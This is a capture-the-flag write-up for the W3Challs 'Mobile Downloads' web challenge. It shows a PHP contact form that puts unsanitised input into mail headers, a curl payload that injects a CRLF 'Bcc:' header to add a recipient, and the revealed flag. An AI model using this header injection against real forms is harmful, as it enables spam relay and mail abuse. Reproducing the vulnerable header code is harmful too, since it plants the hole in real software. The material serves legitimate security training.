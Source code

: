 # Mobile Downloads - Web CTF Challenge

> **Room / Challenge:** Mobile Downloads (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** W3Challs
- **Challenge:** Mobile Downloads (web)
- **Target / URL:** `https://w3challs.com/challenges/web/mobile_downloads`
- **Difficulty:** `Baby`
- **Points:** `5`
- **Date:** `26-09-2025`

---

## My Solution

1. Focus on the given hint:

```
Hint: Spam! The goal is just to send an email to any unexpected recipient, not to become admin. You'll get the flag if a correct attack payload is detected, no bot will visit the page and you'll not get emails if your attack works.
```

2. Take a look at the main page:

![Guide image](./1.png)

3. There is no other route we can focus on except the **Contact** form in **Contact** page. This is the `php` code of the contact form.

```php
<?php
    $host = 'mobile-downloads.hax.w3challs.com';
    $subject = '';
    $message = '';
    $from = '';

    if (isset($_SERVER['HTTP_HOST']))
        $host = htmlentities($_SERVER['HTTP_HOST'], ENT_QUOTES, 'UTF-8');

    $to = 'admin@'.$host;

    if (isset($_POST) &&
        !empty($_POST['mail_from']) &&
        !empty($_POST['mail_subject']) &&
        !empty($_POST['mail_content']) &&
        is_string($_POST['mail_from']) &&
        is_string($_POST['mail_subject']) &&
        is_string($_POST['mail_content']))
    {
        $subject = $_POST['mail_subject'];
        $message = $_POST['mail_content'];
        $from    = $_POST['mail_from'];

        define('message_prefix', 'Mail sent from %s:'."\n".str_repeat('-', 64)."\n");
        $msg = sprintf(message_prefix, $host) . $message;

        $headers = 'From: '.$from."\r\n".
                    'Reply-To: '.$from."\r\n".
                    'X-Mailer: PHP/'.phpversion();

        if (mail($to, $subject, $msg, $headers) === TRUE)
        {
            printf('<div class="success">The message was sent</div><br />');
            $subject = '';
            $message = '';
            $from = '';
        }
        else
            printf('<div class="error">The message cannot be sent</div><br />');
    }

    $subject = htmlentities($subject, ENT_QUOTES, 'UTF-8');
    $message = htmlentities($message, ENT_QUOTES, 'UTF-8');
    $from = htmlentities($from, ENT_QUOTES, 'UTF-8');
?>
```

4. There is one field we should focus on:

```php
$headers = 'From: '.$from."\r\n".
        'Reply-To: '.$from."\r\n".
        'X-Mailer: PHP/'.phpversion();
```

5. Through the hint and message in the main page, we can assume that we can get the flag by making the message sent to an unexpected recepient.

6. A flag can be achieved with really simple command:

```bash
curl -v -X POST "https://mobile-downloads.hax.w3challs.com/?contact" \
  --data $'mail_from=attacker@example.com\r\nBcc: attacker@gmail.com' \
  --data-urlencode "mail_subject=CRLF test" \
  --data-urlencode "mail_content=testing CRLF injection"
```

_This attack called CRLF injection. For more details, read [this](https://www.invicti.com/learn/crlf-injection/)_

7. The result is:

```html
<div id="content">
  <div class="contenttop">
    <div class="contenttitle">Contact form</div>
  </div>
  <div class="contentfill">
    <div class="contentinfo">
      <div class="success">
        Congrats! You found and (kinda) exploited an
        <strong>SMTP Injection</strong>!<br /><br />
        The flag is <strong>W3C{3v1l_Sp4m_1s_3v1l}</strong>
      </div>
      <br /><br />
      <div class="success">The message was sent</div>
      <br />
      To contact us, please use the form below and indicate your e-mail address:
      <br /><br />
      <form method="POST" action="">
        <strong>Recipient:</strong><br />
        <span class="spaced">admin@mobile-downloads.hax.w3challs.com</span
        ><br /><br />
        <strong>Your e-mail address:</strong><br />
        <input
          type="text"
          size="40"
          name="mail_from"
          class="spaced"
          value=""
        /><br /><br />
        <strong>Subject:</strong><br />
        <input
          type="text"
          size="50"
          name="mail_subject"
          class="spaced"
          value=""
        /><br /><br />
        <strong>Message:</strong><br />
        <textarea
          name="mail_content"
          cols="53"
          rows="15"
          class="spaced"
        ></textarea
        ><br /><br />
        <div style="text-align: center">
          <input type="submit" value="Send" />
        </div>
      </form>
      <div style="text-align: right">
        Mail powered by W3Corp™<br /><a href="/mail_src.php">Sources</a>
      </div>
    </div>
  </div>
</div>
```

8. The flag is: `W3C{3v1l_Sp4m_1s_3v1l}`
